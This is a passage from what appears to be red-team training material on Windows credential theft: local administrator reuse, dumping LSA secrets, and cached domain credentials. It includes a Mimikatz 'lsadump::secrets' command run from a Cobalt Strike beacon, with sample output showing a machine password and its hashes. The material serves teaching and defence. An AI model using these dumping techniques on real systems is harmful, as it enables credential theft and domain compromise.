 The local RID-500 Administrator is not the same as the default Domain Administrator account, and is often disabled.  However, this is useful in cases where a) the account is enabled, and b) the same password is set on every other machine in the domain.

### LSA Secrets <a href="#el_1736772544336_472" id="el_1736772544336_472"></a>

LSA secrets is another piece of protected storage used by the Local Security Authority (LSA).  It can be a bit of a mish-mash as to what's kept in here, but common candidates include service accounts passwords, the machine's domain account password, and EFS encryption keys.  Adversaries can extract \[[T1003.004](https://attack.mitre.org/techniques/T1003/004/)] secrets that are cached in memory, or directly from the `HKLM/Security/Policy/Secrets` registry hive.  These are encrypted, but the key is stored in `HKLM/Security/Policy`.

Mimikatz's `lsadump::secrets` command will automatically fetch and decrypt the secrets.

```batch
beacon> mimikatz !lsadump::secrets

Domain : LON-WKSTN-1
SysKey : a975bfd9830a0c6a82f3449ccc88432d

Local name : LON-WKSTN-1 ( S-1-5-21-3729176663-3746934411-1052919527 )
Domain name : CONTOSO ( S-1-5-21-3926355307-1661546229-813047887 )
Domain FQDN : contoso.com

Policy subsystem is : 1.18
LSA Key(s) : 1, default {ac3b4c09-dbcc-31b9-0b7b-6b6d44fa8648}
  [00] {ac3b4c09-dbcc-31b9-0b7b-6b6d44fa8648} d29b6c62cff0caac88bf40267d2001c987fd597f4c3f1490da0ff2da60163887

Secret  : $MACHINE.ACC
cur/text: sG!&=qn>D(EUr\T!G0F9eP2i.&<@?U[S0djrA@i\Bk+_n_aWG5\N@s<JQ@4X_hV8&rsX,tTL^ nCv >1k*.).kLW`'5)9!&9dMIIDg_v@mdA-Y,Z/Qbe]p*_
    NTLM:3cad4d50decc7d04e6fec0a3c3793cc0
    SHA1:e617ea24446bf924e8b7b2e603e9095e45b96ad3
old/text: sG!&=qn>D(EUr\T!G0F9eP2i.&<@?U[S0djrA@i\Bk+_n_aWG5\N@s<JQ@4X_hV8&rsX,tTL^ nCv >1k*.).kLW`'5)9!&9dMIIDg_v@mdA-Y,Z/Qbe]p*_
    NTLM:3cad4d50decc7d04e6fec0a3c3793cc0
    SHA1:e617ea24446bf924e8b7b2e603e9095e45b96ad3
```

### Cached Domain Credentials <a href="#el_1736774765697_590" id="el_1736774765697_590"></a>

Windows computers that have been joined to a domain often cache domain logon information after a user has logged in.  This is for cases where a user wants to logon to the computer but the domain controller is not accessible (think of laptops).  The number of logons to cache is controlled by the `CachedLogonCount` key in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`.  This can range from 0 to 50, but the default is 10.

The credentials themselves are stored in a hashed format called MS-Cache v2.  These cannot be used with techniques like pass-the-hash; they must be extracted \[[T1003.005](https://attack.mitre.org/techniques/T1003/005/)] and cracked offline to recover the plaintext passwords.
